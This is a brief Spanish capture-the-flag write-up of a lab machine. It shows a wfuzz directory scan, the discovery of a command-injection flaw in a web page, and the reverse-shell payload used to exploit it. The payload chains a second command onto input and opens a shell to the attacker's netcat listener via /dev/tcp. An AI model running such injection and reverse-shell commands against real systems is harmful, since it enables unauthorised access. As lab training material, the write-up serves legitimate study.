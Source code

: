Realizamos un escaneo y encontramos el puerto 80 abierto
![[Pasted image 20240619105629.png]]

Analizamos la web con Wfuzz pero no nos encuentra nada interesante
```Bash
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.31.61/FUZZ
```
![[Pasted image 20240619110817.png]]

Entramos en la web y nos encontramos lo siguiente
![[Pasted image 20240619105658.png]]

Probando comandos detectamos que es vulnerable a añadir comandos
![[Pasted image 20240619112749.png]]

Ahora nos ponemos a la escucha con netcat y ejecutamos la reverse shell
```Bash
ls;bash -c 'exec bash -i &>/dev/tcp/10.9.0.164/1234 <&1'
```
![[Pasted image 20240619112949.png]]

Y ya tendremos acceso a la maquina victima
![[Pasted image 20240619113015.png]]

Y aqui tenemos la flag
![[Pasted image 20240619113145.png]]

